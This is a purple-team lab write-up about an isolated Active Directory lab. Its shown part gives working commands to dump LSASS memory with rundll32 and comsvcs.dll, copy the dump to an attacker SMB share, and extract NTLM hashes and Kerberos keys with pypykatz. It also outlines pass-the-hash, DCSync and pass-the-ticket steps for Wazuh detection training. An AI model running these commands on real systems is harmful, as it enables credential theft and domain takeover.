# Lab 15 — Active Directory Exploitation & SOC Detection: LSASS Credential Dumping, Pass-the-Hash, and Kerberos Pass-the-Ticket (PtT)

*Part of the [Kerberos Attacks and Defense Labs](../README.md) — an advanced purple-team operational investigation: Local Security Authority Subsystem Service (LSASS) internals, in-memory credential harvesting, Living-off-the-Land memory extraction via `comsvcs.dll`, offline artifact carving with `pypykatz`, lateral movement via Pass-the-Hash (PtH), domain escalation via DCSync, Kerberos Pass-the-Ticket (PtT / Overpass-the-Hash) using AES256 keys, and production-grade detection engineering using Wazuh SIEM and Sysmon kernel telemetry.*

---

## 🎯 Executive Summary & Attack Chain Architecture

```
┌────────────────────────────────────────────────────────────────────────────────────────────────────────┐
│                              END-TO-END ACTIVE DIRECTORY EXPLOITATION & SOC TELEMETRY                  │
├────────────────────────────────────────────────────────────────────────────────────────────────────────┤
│                                                                                                        │
│  [ Phase 1: LoL Credential Dumping ]                                                                   │
│  Windows DC (192.168.100.146)                                                                          │
│  rundll32.exe comsvcs.dll, MiniDump ──► Memory Dump Generated: C:\Users\Public\lsass.dmp              │
│       │                                 ▲                                                              │
│       ├─► Sysmon Event ID 10 (Access)   │ [Wazuh Rule 100127: Level 12 Alert]                          │
│       └─► Sysmon Event ID 11 (File)     │ [Wazuh Rule 100129: Level 13 Alert]                          │
│                                                                                                        │
│  [ Phase 2: Out-of-Band Exfiltration ]                                                                 │
│  net use \\192.168.100.50\loot ───────► SMB Exfiltration of 129MB dump to Kali Linux                   │
│                                                                                                        │
│  [ Phase 3: Offline Artifact Carving ]                                                                 │
│  Kali Linux (192.168.100.50)                                                                           │
│  pypykatz lsa minidump /tmp/loot/lsass.dmp ──► Extracted NTLM Hashes & AES256 Kerberos Keys            │
│                                                                                                        │
│  [ Phase 4: Lateral Movement & Escalation (PtH) ]                                                      │
│  impacket-wmiexec -hashes :NTLM compromised-admin@192.168.100.146 ──► Initial DC Remote Shell          │
│       │                                                                                                │
│       └─► impacket-secretsdump -just-dc-user Administrator ────────► Harvested Domain Admin Hashes     │
│                                                                                                        │
│  [ Phase 5: Kerberos Pass-the-Ticket (PtT) ]                                                           │
│  impacket-getTGT -aesKey <AES256> SOCLAB.LOCAL/compromised-admin ──► Fresh TGT (compromised-admin.ccache)│
│       │                                                                                                │
│       ▼                                                                                                │
│  export KRB5CCNAME=compromised-admin.ccache                                                            │
│  impacket-wmiexec -k -no-pass WIN-SOCLAB.SOCLAB.LOCAL ─────────────► Pure Kerberos DC Takeover         │
│                                                                                                        │
└────────────────────────────────────────────────────────────────────────────────────────────────────────┘
```

In corporate Active Directory environments, gaining local administrative privileges on a single workstation or server is often merely the first domino. Attackers immediately target the Windows Local Security Authority Subsystem Service (`lsass.exe`) to harvest in-memory secrets, including NTLM hashes, DPAPI master keys, and Kerberos Ticket Granting Tickets (TGTs). 

This operational lab document provides an end-to-end red team demonstration and blue team detection analysis covering:
1. **Living-off-the-Land (LotL) LSASS Dumping:** Bypassing standard antivirus by weaponizing Windows native binaries (`rundll32.exe` invoking `comsvcs.dll`).
2. **Out-of-Band Exfiltration:** Seamlessly copying large memory minidumps across isolated subnets via authenticated SMB shares.
3. **Offline In-Memory Parsing:** Carving NTLM hashes, SHA1 hashes, and Kerberos AES128/AES256 encryption keys using `pypykatz` without generating endpoint noise.
4. **Dual Lateral Movement Execution:**
   - **Pass-the-Hash (PtH):** Achieving command execution with `impacket-wmiexec` using extracted NTLM hashes.
   - **DCSync Privilege Escalation:** Dumping the built-in Domain Administrator hash from the Active Directory database (`ntds.dit`) via DRSUAPI replication calls.
   - **Pass-the-Ticket (PtT / Overpass-the-Hash):** Requesting a genuine Kerberos Ticket Granting Ticket (TGT) using harvested AES256 keys via `impacket-getTGT`, resolving domain realm pre-authentication errors, and authenticating without transmitting any passwords or hashes over the wire.
5. **Detection Engineering in Wazuh SIEM:** Building a robust, production-grade 4-tier detection hierarchy that suppresses hypervisor polling noise (`VBoxService.exe` 775 false-positive storm) while detecting weaponized memory read bitmasks (`Rule 100127`) and disk dumping footprints (`Rule 100129`).

---

## 🔬 Lab Environment & Component Matrix

| Component | Identifier | Network Configuration | Role / Function |
|---|---|---|---|
| **Attacker Workstation** | Kali Linux 2026.x | `192.168.100.50` | External attacker, SMB collector, Impacket suite, Pypykatz |
| **Domain Controller** | `WIN-SOCLAB` (Windows Server 2022) | `192.168.100.146` (`SOCLAB.LOCAL`) | Active Directory DC, target of credential dumping and lateral movement |
| **SIEM Server** | Wazuh Manager 4.14.5 | Kali Docker `single-node-wazuh.manager-1` | Ingests Sysmon EventChannel logs, evaluates custom rules |
| **Endpoint Agent** | Wazuh Agent `001` (`the-server-agent`) | Local Windows Service on `WIN-SOCLAB` | Forwards Sysmon operational channel & security events |
| **Compromised Identity** | `SOCLAB\compromised-admin` | Local Admin / Delegated Operator | Initial compromised identity used to initiate dumping |
| **Escalated Identity** | `SOCLAB\Administrator` | Built-in Domain Administrator (RID 500) | Full Domain Compromise identity harvested via DCSync |

### MITRE ATT&CK Mapping:
- **T1003.001:** OS Credential Dumping: LSASS Memory
- **T1550.002:** Use Alternate Authentication Material: Pass the Hash
- **T1550.003:** Use Alternate Authentication Material: Pass the Ticket
- **T1059.001:** Command and Scripting Interpreter: PowerShell
- **T1021.002:** Remote Services: SMB/Windows Admin Shares
- **T1048:** Exfiltration Over Alternative Protocol (SMB)
- **T1003.006:** OS Credential Dumping: DCSync

---

## 🛠️ Phase 1: Lab Baseline & Target Identity Preparation

To model a realistic enterprise compromise, a delegated administrative account named `compromised-admin` was provisioned directly on the Domain Controller. In enterprise Active Directory deployments, tier-1 or tier-2 administrators frequently have local administrative rights on servers, which allows them to inherit `SeDebugPrivilege`.

### Step 1: Provisioning the Target User in PowerShell

An administrative PowerShell session on `WIN-SOCLAB` was used to initialize the user account and configure it within administrative groups:

```powershell
# Initialize administrative PowerShell terminal
# Create secure credential object and configure account
$SecurePassword = ConvertTo-SecureString "<REDACTED_PASSWORD>" -AsPlainText -Force
New-ADUser -SamAccountName "compromised-admin" `
           -UserPrincipalName "compromised-admin@soclab.local" `
           -Name "Compromised Admin" `
           -AccountPassword $SecurePassword `
           -PasswordNeverExpires $true `
           -Enabled $true

# Assign local administrative privileges
Add-LocalGroupMember -Group "Administrators" -Member "compromised-admin"
```

The PowerShell session initialization and administrative terminal state:





Execution of the user provisioning command sequence with password parameters properly protected:



Validation of user account attributes and group membership:



---

### Step 2: Wazuh Baseline Auditing & User Creation Event

The creation of an administrative identity immediately generated baseline telemetry within Wazuh SIEM, firing on **Windows Security Event ID 4720** (A user account was created):



The event stream confirms the execution of account creation:



Examining the Document Details view for the security audit record:



Document details displaying user identification fields:



Detailed audit logging parameters:



---

## ⚡ Phase 2: Credential Access via Native Binary (`comsvcs.dll`)

Instead of downloading unverified third-party binaries onto the target server (which triggers static antivirus signatures), advanced adversaries utilize **Living-off-the-Land Binaries and Scripts (LOLBAS)**. Windows includes native libraries capable of generating process dumps without external tooling.

### Step 1: The `comsvcs.dll` MiniDump Mechanism

The dynamic link library `C:\Windows\System32\comsvcs.dll` exports a native diagnostic function called `MiniDump`. When executed via the legitimate Windows binary `rundll32.exe`, this function accepts the Process ID (PID) of any target process, an output path, and a dump flag (`full`), invoking the internal Win32 API `MiniDumpWriteDump`:

```powershell
# 1. Identify the Process ID (PID) of lsass.exe
$LsassPID = (Get-Process lsass).Id

# 2. Execute MiniDump via rundll32.exe (comsvcs.dll export #24)
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $LsassPID C:\Users\Public\lsass.dmp full
```

Execution of the native memory dump command on the Domain Controller:



---

### Step 2: Addressing the Path Resolution Challenge (`Isass` vs `lsass.dmp`)

During file operations on Windows, the system font (`Consolas` or `Segoe UI`) renders the lowercase letter `l` and the uppercase letter `I` with nearly identical visual glyphs. Furthermore, Windows File Explorer hides file extensions by default. 

Initial attempts to reference `C:\Users\Public\Isass` produced `Path not found` errors. Confirming the true disk file name via `Get-ChildItem -Force` revealed the accurate path: `C:\Users\Public\lsass.dmp` (129 MB).

Verification of the 129MB memory minidump written to disk:



---

## 📡 Phase 3: Out-of-Band Exfiltration via Encrypted SMB

With the minidump generated on the Domain Controller, attempting to run memory analyzers directly on the server risks triggering defensive telemetry. The red team objective is rapid, stealthy out-of-band exfiltration to the attacker's staging system.

### Step 1: Initializing Attacker SMB Staging Server

On Kali Linux (`192.168.100.50`), an authenticated SMB share was initialized using Impacket:

```bash
# Initialize SMB staging share on Kali Linux
impacket-smbserver loot /tmp/loot -smb2support -username kali -password <REDACTED_PASSWORD>
```

### Step 2: Executing SMB Exfiltration from the Target

From the Domain Controller's PowerShell console, the operator mounted the remote share, transferred the dump file, and cleanly dismounted the network drive:

```powershell
# 1. Connect to Kali SMB share
net use \\192.168.100.50\loot /user:kali <REDACTED_PASSWORD>

# 2. Copy the full 129MB LSASS dump file to attacker storage
copy C:\Users\Public\lsass.dmp \\192.168.100.50\loot\lsass.dmp

# 3. Disconnect and tear down the network session
net use \\192.168.100.50\loot /delete
```

PowerShell terminal demonstrating the SMB connection, file copy, and session teardown:



Full execution trace verifying that the command completed successfully and the network share was deleted:



On Kali Linux, verifying `/tmp/loot/` confirmed receipt of the full 129MB dump file:

```bash
ls -lh /tmp/loot/lsass.dmp
# -rwxrwxr-x 1 kali kali 129M Nov 23 14:11 lsass.dmp
```

---

## 🔍 Phase 4: Offline Credential Extraction via Pypykatz

With `lsass.dmp` safely staged on Kali Linux, parsing is conducted entirely offline. This eliminates any possibility of triggering host-based EDR agents or tripping local memory heuristics.

### Step 1: Parsing the Minidump Structure

`pypykatz` is a pure-Python implementation of Mimikatz designed for offline forensic analysis:

```bash
# Parse LSASS minidump and export structured JSON telemetry
pypykatz lsa minidump /tmp/loot/lsass.dmp -o /tmp/loot/dc_dump.json
```

Execution of `pypykatz lsa minidump` on Kali Linux:



---

### Step 2: Extracted Credential Inventory & Forensic Analysis

Inspecting `/tmp/loot/dc_dump.json` revealed the full credential cache for active logon sessions:

```bash
cat /tmp/loot/dc_dump.json | grep -A 20 "compromised-admin"
```

The parsed output yielded:
- **NTLM Hash (NT):** `<REDACTED_NTLM_HASH>`
- **SHA1 Hash:** `<REDACTED_SHA1_HASH>`
- **DPAPI Key:** `<REDACTED_DPAPI_KEY>`
- **Kerberos AES128 Key:** `<REDACTED_AES128_KEY>`
- **Kerberos AES256 Key:** `<REDACTED_AES256_KEY>`

Extracted credential store displayed in the terminal:



#### Forensic Note on `.kirbi` Ticket Extraction:
Modern Windows Server 2022 releases utilize updated LSA memory allocation tables that prevent standard dump parsers from directly carving raw `.kirbi` ticket files from disk minidumps. However, because `pypykatz` successfully recovered the **Kerberos AES256 encryption key**, the attacker possessed the cryptographic material needed to forge or request genuine Kerberos tickets directly from the Key Distribution Center (KDC).

---

